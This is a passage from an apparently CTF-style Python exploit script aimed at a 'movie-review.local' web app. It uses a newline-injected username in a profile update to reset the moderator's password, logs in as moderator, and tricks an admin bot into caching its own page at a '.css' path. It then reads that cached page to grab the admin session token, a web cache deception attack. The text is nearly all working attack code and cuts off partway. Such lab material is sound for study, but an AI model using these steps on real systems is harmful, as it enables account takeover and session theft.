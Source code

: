 ```python

time.sleep(1)

### Add a review for later
print("[*] Adding a review")
add_review_url = f"{target_url}/api/submit_review"
add_review_payload = {"movie_id":"1","review_title":"a","review":"a"}
response = user_session.post(add_review_url, json=add_review_payload)
if response.status_code != 200:
    print("[-] Failed to add review")
    exit(1)
print("[+] Review added")


time.sleep(1)

### Maliciously update password for moderator user
print("[*] Updating password for moderator user, through own profile")
update_user_url = f"{target_url}/api/update_user"
update_user_payload = {"username":"moderator@movie-review.local\n","password":"a"}
response = user_session.post(update_user_url, json=update_user_payload)
if response.status_code != 200:
    print("[-] Failed to update password for moderator@movie-review.local")
    exit(1)
print("[+] Password updated for moderator@movie-review.local to 'a'")

time.sleep(1)

### Logging in as moderator
moderator_session = requests.session()
print("[*] Logging in as moderator")
login_payload={"password": "a", "username": "moderator@movie-review.local"}
response = moderator_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login as moderator")
    exit(1)
print("[+] Logged in as moderator")

time.sleep(1)

### Make the admin bot visit the cache link
print("[*] Making the admin bot visit the cache link")
visit_link_url = f"{target_url}/api/report_review"
visit_link_payload = {"review_url":"/api/user/self2.css"}
response = moderator_session.post(visit_link_url, json=visit_link_payload)
if response.status_code != 200:
    print("[-] Failed to make the admin bot visit the cache link")
    exit(1)
print("[+] Admin bot visited the cache link")

time.sleep(1)

# Grabbing the admin session token from the cached link
print("[*] Grabbing the admin session token from the cache link")
admin_session_token = ""
cached_url = f"{target_url}/api/user/self2.css"
response = moderator_session.get(cached_url)
if response.status_code != 200:
    print("[-] Failed to grab the admin session token")
    exit(1)
if "admin" not in response.text:
    print("[-] Admin session token not found in the cache link")
    exit(1)
```